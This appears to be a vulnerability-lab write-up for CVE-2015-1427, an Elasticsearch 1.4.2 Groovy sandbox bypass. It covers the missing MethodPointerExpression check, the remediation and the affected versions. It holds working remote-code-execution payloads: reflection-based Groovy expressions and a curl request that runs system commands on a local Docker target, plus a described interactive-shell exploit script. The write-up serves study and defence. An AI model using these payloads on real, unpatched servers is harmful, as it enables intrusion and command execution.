




# CVE-2015-1427 CWE-284 Elasticsearch RCE

## Vulnerability Background
- **ElasticSearch :** An open-source distributed RESTful search and analysis engine, scalable data storage, and vector database capable of addressing a wide range of emerging use cases. It can store large amounts of data and supports real-time search, multi-tenant, distributed indexing, and storage. Uses document-oriented storage, with data stored in JSON format and flexible fields. It performs excellently in full-text retrieval, quickly handling complex search requests, and is commonly used in scenarios such as log analysis and website searches. It can also facilitate cluster expansion by adding nodes, though it is slightly weaker than traditional databases in terms of transaction processing integrity and data update consistency.
- **CWE-284 (Improper Access Control):* Unauthorized access control refers to software failing to properly restrict users' access to system resources or functions, allowing unauthorized users to access or operate content that should not be allowed, potentially causing data leaks, privilege escalation, or system tampering security risks.
- **Groovy :** A JVM-based dynamic programming language characterized by simplicity and flexibility, making it highly compatible with Java code. It supports scripting and rapid development, while providing powerful dynamic features and a rich library. In Elasticsearch, Groovy scripts are widely used to implement complex search queries and data processing. However, for security reasons, starting from Elasticsearch version 7.10, Groovy scripts are not supported by default.

## Vulnerability Mechanism
After CVE-2014-3120, ElasticSearch's default dynamic scripting language was changed to Groovy, and a sandbox was added, but the default still supports direct execution of dynamic languages. This vulnerability: 1. It is a sandbox bypass; 2. It is a Goovy code execution vulnerability. For example, you can use the script_fields field to run scripts in _search requests.

The core issue with the vulnerability is:

> **The Groovy engine did not properly implement sandbox restrictions, allowing attackers to use Java reflection mechanisms to call arbitrary classes and thus execute remote code. **

Attackers can construct malicious Groovy scripts, such as calling:

```groovy
java.lang.Runtime.getRuntime().exec("id")
```

to execute any system command on the server.

## Vulnerability Location
Analysis of Elasticsearch 1.4.2 Source Code:

In the src \main \java \org \elasticsearch \script \groovy \GroovySandboxExpressionChecker .java file, this class  GroovySandboxExpressionChecker is a component of Elasticsearch used to perform AST (Abstract Syntax Tree) level security checks before executing user-submitted Groovy scripts, primarily to prevent malicious code execution.

In line 118, the isAuthorized method is used to check whether the given expression is authorized to be executed. However, **there is a lack of checking for MethodPointerExpression**.

```java
/**
 * Checks whether the expression to be compiled is allowed
 */
@Override
public boolean isAuthorized(Expression expression) {
    if (expression instanceof MethodCallExpression) {
        MethodCallExpression mce = (MethodCallExpression) expression;
        String methodName = mce.getMethodAsString();
        if (methodBlacklist.contains(methodName)) {
            return false;   // Prevents methods from being called from the blacklist
        } else if (methodName == null && mce.getMethod() instanceof GStringExpression) {
            // Prevents method names from being constructed via string interpolation (e.g., ${"ex"})
            return false;
        }
    } else if (expression instanceof ConstructorCallExpression) {
        // If the constructor is called, check whether the package and class are allowed. This limits the source of constructors.
        ConstructorCallExpression cce = (ConstructorCallExpression) expression;
        ClassNode type = cce.getType();
        if (!packageWhitelist.contains(type.getPackageName())) {
            return false;
        }
        if (!classWhitelist.contains(type.getName())) {
            return false;
        }
    }
    return true;
}
```

For example, an attacker can use this expression:

```python
def r = java.lang.Runtime.getRuntime()
def m = r.&exec
m("id")
```

Through `.&`, you get the pointer of `exec()`'s method, bypassing `methodBlacklist.contains("exec")`'s judgment. But this type is not `MethodCallExpression`, so it doesn't enter the if branch at all, and ultimately executes `return true;` 

Malicious command scripts in the script in the payload:

```bash
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

It uses a known, sandbox-allowed class: `java.lang.Math` gets a valid expression `Class` type that is not on the blacklist, then calls `class.forName()`, which is used to dynamically load class objects. This is the **key point**: using `forName()` to bypass explicit path checks for `Runtime`. The `Runtime` instances obtained are usually `Runtime.getRuntime()` blacklist methods, but since the `forName()` obtained earlier was an object of `java.lang.Runtime` class, **** does not directly specify `Runtime.getRuntime()`**, thus bypassing blacklist checks. Ultimately, `exec()` can be called to execute commands.

## Remediation

Upgrade to Elasticsearch 1.3.8, 1.4.3, or a later supported release. The fix disables dynamic Groovy scripting by default and strengthens the Groovy sandbox, including rejection of `MethodPointerExpression` and other constructs that can build or invoke methods outside the allowlist.

On systems that cannot be upgraded immediately, set `script.disable_dynamic: true`, remove untrusted stored scripts, and restrict the Elasticsearch HTTP interface to trusted application hosts. Because these branches are obsolete, migration to a maintained Elasticsearch version is strongly recommended.
Add a check for `MethodPointerExpression` to the isAuthorized method.

```java
if (expression instanceof MethodPointerExpression) {Add commentMore actions
            return false;
        } 
```

## Affected Versions
Elasticsearch 1.3.0 to 1.3.7 and 1.4.0 to 1.4.2 

## Environment Setup
1. Launch the Docker environment, ElasticSearch version 1.4.2, exploiting the vulnerability on open port 9200.

   

2. In the Docker environment, a document with index init_index, type user, document ID 1 has been created, and the field name is set to init_user. Use the following command to view the information in the document.

   ```bash
   curl -XGET 'http://127.0.0.1:9200/init_index/user/1?pretty'
   ```

   

## Vulnerability Reproduction
1. **Data must be stored in the database. **Data is already pre-stored in the Docker environment. If there is no data, use `curl` to send an HTTP request to insert an Index Document to a locally running ElasticSearch instance:

   - Index name: init_index
   - Type: user
   - The document's ID (if present, will be overwritten; If not available, create one): 1
   - Inserted content: The value of the name field is init_user

   ```bash
   curl -XPUT 'http://127.0.0.1:9200/init_index/user/1' \
   	-d '{"name" : "init_user"}'
   ```

2. Construct the payload, use the curl command to send a request, and use Elasticsearch's scripting feature (in Groovy language) to attempt to execute the system command ID. The fields field in the returned result is the execution result of the id command.

   ```bash
   curl -XPOST 'http://127.0.0.1:9200/_search?pretty' \
   -H 'Content-Type: application/json' \
   -d '{
     "size": 1,
     "script_fields": {
       "lupin": {
         "lang": "groovy",
         "script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"
       }
     }
   }'
   ```

   

## PoC Analysis
After ensuring the data is stored in the database, execute the EXP file, enter the target IP and port to obtain the interactive shell.

```bash
python CVE-2015-1427-EXP.py
```

Execution process: Enter the target IP and port number, loop and wait for the command input, then construct a payload and send it to the target ES and return the result.



## References
[ElasticSearch - Remote Code Execution - Linux remote Exploit](https://www.exploit-db.com/exploits/36337)

[ElasticSearch Groovy Remote Code Execution Vulnerability (CVE-2015-1427) POC - Tiantian AC - BlogGarden](https://www.cnblogs.com/sxmcACM/p/4435842.html)

[Improper Access Control in Elasticsearch · CVE-2015-1427 · GitHub Advisory Database](https://github.com/advisories/GHSA-w94p-6mhw-4qxw)

[Docs: Added note about groovy sandbox vulnerability to modules/scripting · elastic/elasticsearch@4b8154a](https://github.com/elastic/elasticsearch/commit/4b8154acc0e948234f97c884ce7c03ac0d25d0ad)

[Disallow method pointer expressions in Groovy scripting · elastic/elasticsearch@ee23113](https://github.com/elastic/elasticsearch/commit/ee231133ca0e318ee18a6b1badd8368337f5e59a)
